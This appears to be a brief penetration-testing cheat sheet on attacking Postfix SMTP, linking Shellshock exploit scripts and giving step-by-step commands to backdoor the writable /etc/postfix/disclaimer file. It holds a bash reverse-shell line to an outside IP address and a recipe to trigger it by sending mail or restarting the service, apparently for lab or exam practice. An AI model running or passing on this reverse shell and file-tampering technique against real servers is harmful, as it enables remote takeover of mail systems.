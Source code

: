 # postfix smtp

## Shellsock

```
https://github.com/3mrgnc3/pentest_old/blob/master/postfix-shellshock-nc.py
https://www.exploit-db.com/exploits/34896
```

## /etc/postfix/disclaimer RCE

```
# /etc/postfix/disclaimer needs to writable
ls -la /etc/postfix/disclaimer

# add shell to top of file
bash -i >& /dev/tcp/192.168.49.175/6969 0>&1

# invoke
send email via smtp | service postfix restart
```
